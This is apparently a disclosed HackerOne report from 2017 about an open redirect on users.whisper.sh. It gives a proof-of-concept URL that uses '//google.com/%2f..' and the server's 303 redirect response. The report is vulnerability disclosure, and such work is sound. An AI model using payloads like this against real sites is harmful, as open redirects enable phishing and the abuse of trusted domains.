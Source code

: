 # Open Redirection Found in users.whisper.sh

## Report Details
- **Report ID**: 261592
- **URL**: https://hackerone.com/reports/261592
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-08-19T14:53:13.750Z
- **Disclosed**: 2017-09-21T06:43:01.549Z

## Reporter
- **Username**: hackedbrain
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: whisper

## Vulnerability Information
I found that one of your subdomains users.whisper.sh is vulnerable to open redirection.

POC: `http://users.whisper.sh//google.com/%2f..`

Response:
```
HTTP/1.1 303 See Other
X-Powered-By: Express
Location: //google.com/%2f../
Set-Cookie: 
CM; Path=/; HttpOnly
Date: Sat, 19 Aug 2017 14:22:50 GMT
Content-Length: 34
Via: 1.1 google

Redirecting to //google.com/%2f../
```



## Attachments
No attachments
